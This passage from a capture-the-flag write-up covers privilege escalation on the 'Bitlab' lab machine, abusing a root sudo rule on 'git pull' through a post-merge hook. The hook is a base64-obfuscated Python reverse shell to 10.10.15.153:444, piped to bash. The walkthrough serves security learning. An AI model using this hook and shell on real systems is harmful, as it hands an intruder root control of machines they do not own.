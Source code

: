 Once I logged in as ‘clave’, I listed the contents of the home directory and saw a Windows executable:

{% highlight bash %}
clave@bitlab:~$ ls -lah
total 44K
drwxr-xr-x 4 clave clave 4.0K Aug  8 14:40 .
drwxr-xr-x 3 root  root  4.0K Feb 28  2019 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave 3.7K Feb 28  2019 .bashrc
drwx------ 2 clave clave 4.0K Aug  8 14:40 .cache
drwx------ 3 clave clave 4.0K Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave  807 Feb 28  2019 .profile
-r-------- 1 clave clave  14K Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave   33 Feb 28  2019 user.txt
clave@bitlab:~$ file RemoteConnection.exe 
RemoteConnection.exe: PE32 executable (console) Intel 80386, for MS Windows
clave@bitlab:~$

{% endhighlight %}

The intended solution was probably to reverse engineer this executable and get SSH creds for root, however, I suck at reversing, so I used the next method.

## Privesc – The Unintended Method

After enumerating as www-data for a bit, I dicovered that the user was able to run ‘git pull’ with root privileges:

{% highlight bash %}
www-data@bitlab:/tmp/yakuhito$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/tmp/yakuhito$

{% endhighlight %}

I searched the internet for way to abuse this and found an interesting thread about [executing commands automatically after running git pull](https://stackoverflow.com/questions/5623208/how-to-execute-a-command-right-after-a-fetch-or-pull-command-in-git). Basically, I had to use git hooks, which are just files that get executed after git finishes specific actions. First, I cloned the profile repository and created the hook:

{% highlight bash %}
www-data@bitlab:/tmp/yakuhito$ cp -r /var/www/html/profile ./repo
cp -r /var/www/html/profile ./repo
www-data@bitlab:/tmp/yakuhito$ echo "echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTUuMTUzIiw0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycK | base64 -d | bash" > repo/.git/hooks/post-merge
www-data@bitlab:/tmp/yakuhito$ chmod 777 repo/.git/hooks/post-merge
chmod 777 repo/.git/hooks/post-merge
www-data@bitlab:/tmp/yakuhito$

{% endhighlight %}
